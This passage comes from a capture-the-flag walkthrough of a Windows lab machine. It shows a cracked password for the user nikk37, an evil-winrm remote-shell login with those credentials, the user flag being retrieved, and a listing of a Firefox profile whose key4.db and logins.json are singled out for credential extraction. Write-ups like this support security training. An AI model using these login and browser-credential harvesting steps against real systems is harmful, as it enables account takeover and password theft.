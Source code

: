 The important credentials found here is `nikk37` user as it is also a user in the machine. Using Crackstation we can crack the password:
```bash
Username: nikk37
Password: get_dem_girls2@yahoo.com
```

## Shell as Nikk37
Using `nikk37` credentials we can connect to the target via WinRM:
```bash
$ evil-winrm -u nikk37 -p 'get_dem_girls2@yahoo.com' -i 10.129.186.175

PS C:\Users\nikk37\Documents> whoami
streamio\nikk37
```

Get the user flag:
```powershell
PS C:\Users\nikk37\desktop> type user.txt
053a212058dd2bd731b25d4a8fc6d4e6
```

Enumerating `nikk37` files we find a Firefox database file `key4.db` and 2 interesintg json files, `logins.json` and `logins-backup.json`:
```Powershell
PS C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release> dir

Directory: C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        2/22/2022   2:40 AM                bookmarkbackups
d-----        2/22/2022   2:40 AM                browser-extension-data
d-----        2/22/2022   2:41 AM                crashes
d-----        2/22/2022   2:42 AM                datareporting
d-----        2/22/2022   2:40 AM                minidumps
d-----        2/22/2022   2:42 AM                saved-telemetry-pings
d-----        2/22/2022   2:40 AM                security_state
d-----        2/22/2022   2:42 AM                sessionstore-backups
d-----        2/22/2022   2:40 AM                storage
-a----        2/22/2022   2:40 AM             24 addons.json
-a----        2/22/2022   2:42 AM           5189 addonStartup.json.lz4
-a----        2/22/2022   2:42 AM            310 AlternateServices.txt
-a----        2/22/2022   2:41 AM         229376 cert9.db
-a----        2/22/2022   2:40 AM            208 compatibility.ini
-a----        2/22/2022   2:40 AM            939 containers.json
-a----        2/22/2022   2:40 AM         229376 content-prefs.sqlite
-a----        2/22/2022   2:40 AM          98304 cookies.sqlite
-a----        2/22/2022   2:40 AM           1081 extension-preferences.json
-a----        2/22/2022   2:40 AM          43726 extensions.json
-a----        2/22/2022   2:42 AM        5242880 favicons.sqlite
-a----        2/22/2022   2:41 AM         262144 formhistory.sqlite
-a----        2/22/2022   2:40 AM            778 handlers.json
-a----        2/22/2022   2:40 AM         294912 key4.db
-a----        2/22/2022   2:41 AM           1593 logins-backup.json
-a----        2/22/2022   2:41 AM           2081 logins.json
-a----        2/22/2022   2:42 AM              0 parent.lock
-a----        2/22/2022   2:42 AM          98304 permissions.sqlite
-a----        2/22/2022   2:40 AM            506 pkcs11.txt
-a----        2/22/2022   2:42 AM        5242880 places.sqlite
-a----        2/22/2022   2:42 AM           8040 prefs.js
-a----        2/22/2022   2:42 AM            180 search.json.mozlz4
-a----        2/22/2022   2:42 AM            288 sessionCheckpoints.json
-a----        2/22/2022   2:42 AM           1853 sessionstore.jsonlz4
-a----        2/22/2022   2:40 AM             18 shield-preference-experiments.json
```